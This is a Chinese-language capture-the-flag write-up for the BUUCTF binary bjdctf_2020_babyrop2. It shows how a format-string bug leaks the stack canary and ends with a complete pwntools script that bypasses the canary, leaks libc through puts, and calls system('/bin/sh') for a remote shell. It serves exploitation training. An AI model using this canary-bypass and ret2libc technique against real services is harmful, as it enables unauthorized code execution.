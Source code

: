 ### Printf  指定地址泄露 Canary

话不多说，直接上题（BUUCTF）

![](https://pic1.imgdb.cn/item/67b42be6d0e0a243d40070c9.png)

先 checksec 一下发现开启了 Canary 及 NX

![](https://pic1.imgdb.cn/item/67b42c4fd0e0a243d40070e8.png)

反编译先看 main 函数

![](https://pic1.imgdb.cn/item/67b42c7dd0e0a243d40070fb.png)

首先调用了 init 函数打印了两句话

![](https://pic1.imgdb.cn/item/67b42cb7d0e0a243d4007113.png)

再是 gift 函数，这里明显存在字符串格式化漏洞

![](https://pic1.imgdb.cn/item/67b42d42d0e0a243d4007134.png)

最后是 vuln 函数

![](https://pic1.imgdb.cn/item/67b42d72d0e0a243d4007139.png)

buf 缓冲区存在溢出

![](https://pic1.imgdb.cn/item/67b42d7cd0e0a243d400713a.png)

尝试常规方法泄露但不行

![](https://pic1.imgdb.cn/item/67b42e33d0e0a243d400715d.png)

输入 %n$p（用法参考 2.1）

可以看到偏移是 6

![](https://pic1.imgdb.cn/item/67b42f2fd0e0a243d4007183.png)

使用 gdb 调试发现在字符串下面一行就是 Canary 的值

![](https://pic1.imgdb.cn/item/67b430a5d0e0a243d40071e6.png)

所以输入 %7$p 就能泄露 Canary 的值

![](https://pic1.imgdb.cn/item/67b43228d0e0a243d4007239.png)

![](https://pic1.imgdb.cn/item/67b43244d0e0a243d400723f.png)

64 位系统还需要一个 pop rdi;ret

![](https://pic1.imgdb.cn/item/67b4329fd0e0a243d400724a.png)

Canary 保护会从 rbp-4 或者 rbp-8 的位置取出并与 fs/gs 寄存器对应位置的值进行比较

如果不相等就会执行 __ stack_chk_fail 函数，这个函数强行停止程序运行并发出警告，从而阻止栈溢出攻击

所以在最后填上 Canary 的值来绕过

```python
from pwn import *
from LibcSearcher import *

r = remote('node3.buuoj.cn',26842)
elf = ELF('./bjdctf_2020_babyrop2')

payload = '%7$p'

r.sendline(payload)
r.recvuntil('0x')

cancry = int(r.recv(16),16)

puts_plt = elf.plt['puts']
puts_got = elf.got['puts']
pop_rdi = 0x0400993
main_addr = elf.symbols['main']
vuln_addr = 0x0400887

# 'a' * (0x20 - 8) + p64(cancry)：绕过 cancry
# p64(0)：覆盖 ebp
payload = b'a' * (0x20 - 8) + p64(cancry) + p64(0) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(vuln_addr)

r.recvuntil('story!\n')
r.sendline(payload)

puts_addr = u64(r.recv(6).ljust(8, b'\x00'))
libc = LibcSearcher('puts', puts_addr)
base_addr = puts_addr - libc.dump('puts')
system_addr = base_addr + libc.dump('system')
shell_addr = base_addr + libc.dump('str_bin_sh')

r.recvuntil('story!\n')

payload = b'a' * (0x20 - 8) + p64(cancry) + p64(0) + p64(pop_rdi) + p64(shell_addr) + p64(system_addr) + p64(main_addr)

r.sendline(payload)
r.interactive()
```


